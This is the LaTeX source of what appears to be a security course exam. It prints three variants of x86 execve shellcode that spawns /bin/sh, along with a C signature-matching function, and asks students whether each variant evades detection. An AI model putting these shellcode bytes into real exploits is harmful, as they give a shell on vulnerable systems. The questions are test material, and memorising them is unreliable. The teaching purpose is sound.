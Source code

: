 \documentclass{article}[9pt]
\begin{document}
\begin{enumerate}
\begin{enumerate}
\begin{verbatim}
8048060: 31 c9            xor ecx,ecx
8048062: f7 e1            mul ecx
8048064: 50               push eax
8048065: 68 6e 2f 73 68   push 0x68732f6e
804806a: 68 2f 2f 62 69   push 0x69622f2f
804806f: 89 e3            mov ebx,esp
8048071: b0 0b            mov al,0xb
8048073: cd 80            int 0x80
\end{verbatim}

\item (5 points) Will the shell code below be detected by the signature scheme, yes or no and \textbf{Explain}.

\begin{verbatim}
8048060: 31 c9             xor ecx,ecx
8048062: f7 e1             mul ecx
8048064: 6a 68             push 0x68
8048066: 68 6e 2f 2f 73    push 0x732f2f6e
804806b: 68 2f 2f 62 69    push 0x69622f2f
8048070: 89 e3             mov ebx,esp
8048072: b0 0b             mov al,0xb
8048074: cd 80             int 0x80
\end{verbatim}
\end{enumerate}

\item Consider this signature matching scheme below:

\begin{verbatim}
int sig_check(char *str, char * sig0, char *sig1){
  char *p;
  for(p=str;*p;p++){
    if ( strncmp(p,sig0,strlen(sig0)) == 0 )
      if (strncmp(p+strlen(sig0),sig1,strlen(sig1)) == 0)
        return 1;
    return 0;
  }
}
\end{verbatim}

\begin{enumerate}
\item (5 points) Provide a signatures (i.e., arguments to sig\(_{\text{check}}\) above) that
will match both shell codes (from the previous questions) use
of the execve system call.

\item (5 points) Consider the following change to the shell code below, does
your previous signature still work? If so, explain why, if not,
explain why not.

\begin{verbatim}
8048060: 31 c9             xor ecx,ecx
8048062: f7 e1             mul ecx
8048064: 6a 68             push 0x68
8048066: 68 6e 2f 2f 73    push 0x732f2f6e
804806b: 68 2f 2f 62 69    push 0x69622f2f
8048070: b1 0b             mov cl,0xb
8048072: 89 e3             mov ebx,esp
8048074: 40                inc eax
8048075: e2 fd             loop 8048074 <_start+0x14>
8048077: cd 80             int 0x80
\end{verbatim}
\end{enumerate}


\end{enumerate}
\end{document}
